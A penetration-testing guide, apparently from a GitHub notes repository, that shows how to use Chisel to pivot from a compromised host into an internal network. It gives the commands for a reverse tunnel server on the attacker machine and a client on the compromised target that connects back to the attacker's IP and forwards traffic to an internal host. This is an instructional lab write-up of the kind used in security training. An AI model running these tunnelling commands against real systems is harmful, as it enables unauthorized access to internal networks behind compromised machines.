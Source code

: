 # Chisel
[Chisel](https://github.com/jpillora/chisel) is a great tool for pivoting and creating tunnels to internal networks and systems from a compromised target. It can be uploaded using [various data infiltration techniques](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Post%20Exploitation/data-exfiltration-infiltration.md)
## Chisel Usage by Example
Youtube user IppSec has a [great tutorial](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Post%20Exploitation/data-exfiltration-infiltration.md) on how to use Chisel as a tunnel to pvito to internal systems from a compromised system. We will descirbe the entire process with 3 hosts, Attacker, which is our Kali system, the Target which is the compromised host, and the Internal Target, which lies on an internal netework that only the compromised Target system has access to communicate with.

Below are the steps outlined in the tunnel process,
1. Compromise a system as any level shell
   1. This does not have to be a root user
   2. This requires a space to read/write on the host to perform data infiltration.
2. Upload Chisel to the target host.
    1. Use simple data infiltration techniques that I have [outlined here.](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Post%20Exploitation/data-exfiltration-infiltration.md)
    2. Ensure the binary tranferred successfully by using `md5sum` or some other hashing mechanism.
3. Start the Chisel server on the Attacker machine.
4. Start the Chisel client on the compromised Target system and connect back to the Attacker system's server.

### Starting the Chisel Server (Step 3)
To start the Chisel server on the Attacker machine, we do,
```
root@attacker-machine:~# chisel server -p 8081 -reverse -v
```
### Chisel Client on Compromised Target (Step 4)
To connect back to the Attacker machine from the compromised Target system, we run (on the compromised Target system)
```
user@target-machine:~$ ./chisel client \
 (ATTACKER IP ADDRESS):(ATTACKER PORT) R:(ATTACKER NEW PORT):(INTERAL TARGET IP):(INTERNAL TARGET PORT)
```
For instance, since we have the server running on the attacker system (10.10.14.2) from step 3 - at port 8081, we do (from the compromised target system (10.10.10.94)),
```
user@target-machine:~$ ./chisel client 10.10.14.2:8081 R:8082:172.19.0.3:80
```
This will route traffic to the internal Target system's port 80 via the compromised Target's reverse `R` connection to the Attacker host's Chisel server.
